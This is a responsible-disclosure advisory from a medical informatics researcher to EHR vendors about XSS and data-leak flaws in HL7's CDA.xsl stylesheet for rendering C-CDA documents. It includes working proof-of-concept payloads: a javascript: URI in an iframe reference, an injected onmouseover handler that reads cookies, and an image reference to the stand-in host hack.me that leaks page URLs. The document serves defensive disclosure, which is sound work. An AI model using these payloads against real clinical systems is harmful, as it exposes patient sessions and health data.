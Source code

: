 ﻿### Dear EHR Vendor,

As a medical informatics researcher at Boston Children's Hospital, I'm writing
to share some security considerations pertinent to any EHR that displays
Consolidated CDA documents for Meaningful Use (especially in a Web browser
environment). I would appreciate if you could ensure that the message below
reaches someone on your security team.

Best,

Josh Mandel, MD  
Lead Architect, SMART Platforms  
Harvard Medical School / Boston Children's Hospital  

---

### Dear Security Team,

I'm writing to report *potential security vulnerabilities* in the display of
Consolidated CDA documents. To be clear, I haven't tested whether your EHR
products are vulnerable to the issues below, but I have found that *these
vulnerabilities affect some production EHR systems*, so I wanted to share this
report with Web-based EHR vendors privately before I describe it in public on
the [SMART Platforms blog](http://smartplatforms.org).

In short, the concern has to do with the use of XSLT "stylesheets" to display
externally-supplied C-CDA documents in the EHR. To be specific: **the CDA.xsl
stylesheet provided by HL7 (which has been broadly adopted by many EHR vendors)
can  leave EHRs vulnerable to attacks by maliciously-composed documents.**

The "TL;DR" version is: If you're using XSLT stylesheets to render C-CDAs in
your EHR, make sure you understand the security implications. Otherwise you
could be vulnerable to a data breach.

**I would appreciate if you could reply to me** so I can track the
dissemination of this notice. My plan is publish a public blog post on
3/21/2014. If you discover that your system is vulnerable and you need more
time to repair it, please let me know prior to 3/20, and I can delay
publication if necessary.

Best,

  Josh Mandel, MD  
  Lead Architect, SMART Platforms  
  Harvard Medical School / Boston Children's Hospital


### Three fundamental attacks

Many vendors appear to be using (slightly tweaked versions of) the
[CDA.xsl](https://github.com/chb/sample_ccdas/blob/b052e21f8f314b49753d8f74967ac40ea5c30948/CDA.xsl) that comes
with HL7's C-CDA release. This provides potential attackers with a highly
visible, leveragable target.

My analysis revealed *at least three ways to craft a malicious C-CDA*. 
The first two vulnerabilities allow the execution of arbitrary JavaScript
code within the C-CDA viewer. For example, **an attacker could steal browser
cookies and application state, and post them back to an external server**. The third
vulnerability allows the C-CDA viewer URL to leak to an external server. 

#### 1. Unsanitized `nonXMLBody/text/reference/@value` can execute JavaScript
One opportunity for injection attacks is the default handling of a `nonXMLBody` CDA. 

```
<xsl:template match='n1:component/n1:nonXMLBody'>
  <xsl:choose>
  <!-- if there is a reference, use that in an IFRAME -->
  <xsl:when test='n1:text/n1:reference'>
  <IFRAME name='nonXMLBody' id='nonXMLBody' WIDTH='80%' HEIGHT='600' src='{n1:text/n1:reference/@value}' />
</xsl:when>
```

This means an attacker can execute arsbitrary JavaScript by supplying a reference like:


```
<nonXMLBody>
  <text>
    <reference value="javascript:alert(parent.document.cookie);"/>
  </text>
</nonXMLBody>
```

The XSLT-output HTML rendering would include the following dangerous snippet:

```
  <iframe src="javascript:alert(parent.document.cookie);"></iframe>
```

#### 2. Unsanitized `table/@onmouseover` can execute JavaScript

A valid C-CDA document is not allowed to provide `table/@onmouseover`
attributes. But if invalid documents are allowed into a system, then the
following permissive "copy all" can be dangerous:

```
<!-- Tables -->
<xsl:template
  match="n1:table/@*|n1:thead/@*|n1:tfoot/@*|n1:tbody/@*|n1:colgroup/@*|n1:col/@*|n1:tr/@*|n1:th/@*|n1:td/@*">
  <xsl:copy>
    <xsl:copy-of select="@*" />
    <xsl:apply-templates />
  </xsl:copy>
```

What this says is: "when you find a `table` in the C-CDA document, just copy
all of its XML attributes right into the rendered document." An attacker can use
this to inject JavaScript in the resulting document. For example, an attacker
could steal cookies and application state, and post them back to an external server.

A source C-CDA document would supply a table like:

```
<table 
   onmouseover="alert(document.cookie);"
   style="height: 100%; width: 100%; position: fixed; left: 0px; top: 0px;">
</table>
```

... and the XSLT-output HTML rendering would contain the source `table` element verbatim.


#### 3. Unsanitized `observationMedia/value/reference/@value` can leak state via HTTP `Referer` headers

Searching CDA.xsl for the term `img`, reveals two places where image tags are
emitted.  Both occur within the `renderMultiMedia` template definition:

```
<xsl:template match="n1:renderMultiMedia">
  <xsl:variable name="imageRef" select="@referencedObject" />
      <!-- snipped for brevity -->
      <xsl:if
        test="//n1:observationMedia[@ID=$imageRef]/n1:value[@mediaType='image/gif' or @mediaType='image/jpeg']">
        <br clear="all" />
        <xsl:element name="img">
          <xsl:attribute name="src"><xsl:value-of
              select="//n1:observationMedia[@ID=$imageRef]/n1:value/n1:reference/@value" /></xsl:attribute>
        </xsl:element>
      </xsl:if>
      <!-- snipped for brevity -->
</xsl:template>
```

By constructing an appropriate `section` in a C-CDA document to act as input to
the template above, an attacker can cause the browser to leak the current page
URL to `https://hack.me`:

```
<text>
  This image loads from an external server...
  <renderMultiMedia referencedObject="MM1"></renderMultiMedia>
</text>
<entry>
  <observationMedia ID="MM1">
    <id root="10.23.4567.345"/>
    <value xsi:type="ED" mediaType="image/jpeg">
      <reference value="https://hack.me/leaked-from-image.png"/>
    </value>
  </observationMedia>
</entry>
```

The XSLT-output HTML rendering would include the potentially dangerous snippet:

```
<img src="https://hack.me/leaked-from-image.png"></img>
```

Each time the document is viewed, the browser sends an HTTP `Referer` header to
`hack.me` that inclues the source page URL. This can be dangerous if any
private session state is embedded in that URL.
